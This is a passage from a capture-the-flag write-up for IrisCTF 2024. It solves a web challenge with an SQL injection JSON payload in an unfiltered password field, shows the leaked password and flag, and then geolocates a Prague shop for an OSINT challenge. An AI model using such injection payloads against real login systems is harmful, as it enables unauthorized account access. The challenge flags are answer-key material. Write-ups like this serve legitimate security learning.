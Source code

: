 There is filtering/checking on the username param, and none on the password field, so we can exploit that with SQLi!

I send the following JSON payload to the login endpoint: 
```json
{
	"username":"skat",
	"password":"\" OR (username = \"skat\" AND password LIKE \"%\") OR \""
}
```

`LIKE` is used to select if its similar to a string, for example if we wanted a string that starts with `test` and not care about the suffix, we can use `LIKE "test%"`. In this case using just `%` effectively acts as a wildcard.

Response: 
```json
{
	"username":"skat",
	"password":"irisctf{my_p422W0RD_1S_SQl1}"
}
```

And there's the flag! <mark>irisctf{my_p422W0RD_1S_SQl1}</mark>

**Files:** [whats-my-password.tar.gz](https://web.archive.org/web/20240107211430/https://cdn.2024.irisc.tf/whats-my-password.tar.gz)

## Open-Source Intelligence/Czech Where? (401 solves)
Created by: `Lychi`
> Iris visited this cool shop a while back, but forgot where it was! What street is it on?
FYI: flag is all lowercase and _ for spaces. Please remove all accent marks if there are any. Wrap your answer in irisctf{}.

We start with a photo and the challenge to find what street it was on, we are given the following photo:

![Picture of storefront](cw_1.png)

Using some searching on Google Maps, we can find a similar logo but not the same storefront.

Searching "Czech wooden products" online yields [this result](https://www.forpraguelovers.com/en/best/wood-shops-in-prague) (among others).

On this page I spot the logo again, and this time we have a website: [amadea.cz](https://www.amadea.cz/)

![Storefront on website](cw_2.png)

I find the [list of stores](https://www.amadea.cz/en/wooden_shops/) by searching for the domains stores list.

Inside here we see the same storefront from the photo, located at `Prague Castle in Zlatá ulička (Golden Lane), No. 20.`

![The same storefront](cw_3.png)
